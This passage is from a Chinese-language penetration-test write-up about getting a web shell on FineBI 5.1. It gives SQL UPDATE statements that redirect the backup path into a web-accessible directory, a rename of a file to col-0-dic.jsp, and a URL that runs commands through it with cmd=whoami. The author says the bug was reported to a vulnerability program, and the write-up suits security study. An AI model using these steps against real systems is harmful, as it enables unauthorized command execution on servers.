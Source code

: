![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2R11gunsneCaJu7pfQbSXPAKLDibIptnMicib1qVddxOPXDia43L8HnVZrrw/640?wx_fmt=png)

家境贫寒没有服务器，就找个我兄弟的服务用了一下，等下和他意思意思一下就可以了，现在说一下为什么要配置外接数据库，Finebi5.1 配置了外接，内容所有数据都会存入外接数据库当中，然后.... 手动滑稽

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RlU9MY3nc9vDeEf2DWH0gTXV9u8AZrggUnUpa9r57zclQBEDic2QPYEA/640?wx_fmt=png)

注意数据库版本是被指定的

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2R5fTXCle1PdpydvJ7J0EzQjVdnzyvx7VibJa1fibNybXEPzQgeXfQPdMg/640?wx_fmt=png)

咳咳，回到正题，现在我们开始修改数据库内容，至于表怎么找到的，别问，问就是一个一个翻

> update fine_backup_node set backup where backupName='2020.12.29_10.11.24123';

> update fine_backup_node set savePath="../scripts/admin/db/T_C162F2/super/P-1/S-1" where savePath='../backup/config/manual';

再次查看发现已经修改成功

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RR7yCbIwqSjbTWNTAnI8es58OC3ibhrVMeUibljPPV0eY39Mb85Id5vKg/640?wx_fmt=png)

这里说一下，为什么是把文件名改为 `col-0-dic`，而不是直接加上 `jsp`，因为它这个是会在指定的那个路径去寻找文件，如果改为 `col-0-dic.jsp` 就找不到文件了，所有现在就开始快乐的修改文件名环节

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2R0gicF7IStibZ7xicibWTIPXkpaiawLJonhghJMh9h2oTJ9LDK96KKGfiaNhw/640?wx_fmt=png)

修改数据库后，回到系统后，刷新

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RSYXJNhcOyp4ItYXcAJfJNdIuZvlz58bMzZvXojH7EiatWicicc6ldZkjg/640?wx_fmt=png)

可以看到文件名已经修改，现在开始重命名添加上 jsp 后缀

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2R20DE5QPfk9jWGdpicEOtKVPE8axRYpyLHI9t8chDRdN1JHp0ibAsKeQw/640?wx_fmt=png)

保存，到主机上查看

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2Ria7OHv6UbbWAxyRFrvpTmic5WKBehtyfFocKAvQvt0hIiaVKUpqJqJ3BQ/640?wx_fmt=png)

发现已经被修改，访问执行 whoami，参数是 cmd，GET 请求

> IP: 端口 / webroot/scripts/admin/db/T_C162F2/super/P-1/S-1/col-0-dic.jsp?cmd=whoami

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RLibfSWJSw3KWCZOGpGd1ZzX05JHLGN1yH89pvdhF8LSkmKrfjh2bF4Q/640?wx_fmt=png)

成功了，历时五天六个小时，终于 getshell 了

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RH6icG7dofslfH5lVXAUVUbPJvaHQOpcAicP6LL5kX8ha31kfONQGOaPw/640?wx_fmt=png)

### 0x04 结语

现在就是已经拿到 shell 权限了，因为是用管理权限运行的，至少都是一个管理员权限，不就想干啥干啥了，然后其中还有很多很多挫折的，试了很多很多方法，才找到一个 (果然还是我太菜)，但还是不负众望 (相关漏洞已提交至某天 src)

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfedqfl5QehVp9Lz864qiaaP5oJUYHWYpADeHrm1ZO6g5yVq5ibe7kKBHrBtjic7CoaJnOLR1y7E5mmtA/640?wx_fmt=png)